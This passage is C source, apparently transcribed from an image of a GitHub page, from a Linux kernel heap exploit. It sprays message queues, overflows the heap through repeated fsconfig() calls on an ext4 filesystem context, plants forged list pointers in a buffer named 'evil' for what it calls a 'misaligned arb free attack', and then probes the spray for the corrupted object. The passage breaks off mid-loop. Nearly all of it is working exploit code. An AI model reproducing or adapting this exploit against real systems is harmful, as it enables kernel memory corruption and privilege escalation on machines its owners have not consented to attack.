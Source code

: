 ```c
    uint64_t make_sec_happy = kmalloc_512 - 0x20;

    stuff_4k(16);

    int targets[P_SPRAY] = {0};

    while (!ready)
    {
        for (int i = 0; i < P_SPRAY; i++) 
        {
            memset(buffer, 0x41+i, sizeof(buffer));
            targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
            send_msg(targets[i], message, size - 0x30, 0);
        }

        get_msg(targets[0], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY);

        // misaligned arb free attack
        fd = fsopen("ext4", 0);
        if (fd < 0) 
        {
                puts("Opening");
                exit(-1);
        }

        strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
        for (int i = 0; i < 117; i++) {
            fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
        }
        puts("[*] Done heap overflow");

        char evil[0x40] = {0};
        uint64_t *evil_ptr = (uint64_t *)evil;
        memset(evil, 0x41, 0x30);
        evil_ptr[0] = next_target;
        evil_ptr[1] = prev_target;
        evil_ptr[4] = free_target;
        evil_ptr[5] = make_sec_happy;

         // in case null bytes in addresses
        if(strlen(evil) != 0x30)
        {
            puts("unable to continue given heap addresses");
            exit(-1);
        }

        puts("[*] Overflowing...");
        fsconfig(fd, FSCONFIG_SET_STRING, evil, "\x00", 0);
        puts("check heap to check preparedness for ignition");

        stuff_4k(16);

        for (int i = 0; i < P_SPRAY; i++)
        {
            memset(recieved, 0, sizeof(recieved));
            // rely on error code to determine if we have found our target which we overflowed into
            int ret = get_msg_no_err(targets[i], recieved, size+0x50-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY);
            if (ret < 0)
            {
                ready = 1;
                ignition_target = i;
                break;
```